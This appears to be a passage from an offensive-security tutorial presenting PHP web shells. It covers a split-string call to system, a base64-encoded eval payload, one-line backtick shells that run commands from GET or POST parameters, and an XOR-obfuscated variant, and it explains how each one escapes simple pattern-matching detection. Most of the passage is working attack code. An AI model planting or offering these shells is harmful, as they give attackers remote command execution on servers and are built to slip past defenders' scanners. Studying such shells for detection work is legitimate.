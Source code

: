 ```
<?php
$cmd = "sy"."stem";
$cmd($_GET['cmd']);
?>
```

This script behaves like a typical `system($_GET['cmd']);` web shell but is harder to detect using simple pattern matching.

* Base64 Encoding

```
<?php
eval(base64_decode("c3lzdGVtKCRfR0VUWyJjbWQiXSk7"));
?>
```

The encoded string `c3lzdGVtKCRfR0VUWyJjbWQiXSk7` decodes to `system($_GET['cmd']);`, effectively hiding the original payload.

These are simple options with which to obfuscate our code, but let's look at other more advanced webshells:

```
<?=`$_GET[0]`?>
```

This is an extremely short and concise version of a web shell in PHP. Let's break it down and analyze how it works:

```
<?= ... ?>
```

It is a short PHP tag that is equivalent to <?php echo ... ?>, this means that the content inside <?= ... ?> is executed and printed directly to the output.

`` (Backticks)

In PHP, **backticks ()** work similarly to shell_exec() or system().
They execute the operating system command provided inside them and return the result.

```
$_GET[0]
```

$_GET is a superglobal array in PHP that collects the parameters sent via an HTTP GET request. $_GET[0] means that the script expects a parameter with index 0 in the URL and will execute it as a system command.
Same but using POST:

```
<?=`$_POST[0]`?>
```

### Advanced Ofuscated Webshells

```
<?php $_=${'_'.('\{\{\{' ^ '<>/')};$_[0]($_[1]); ?>
```

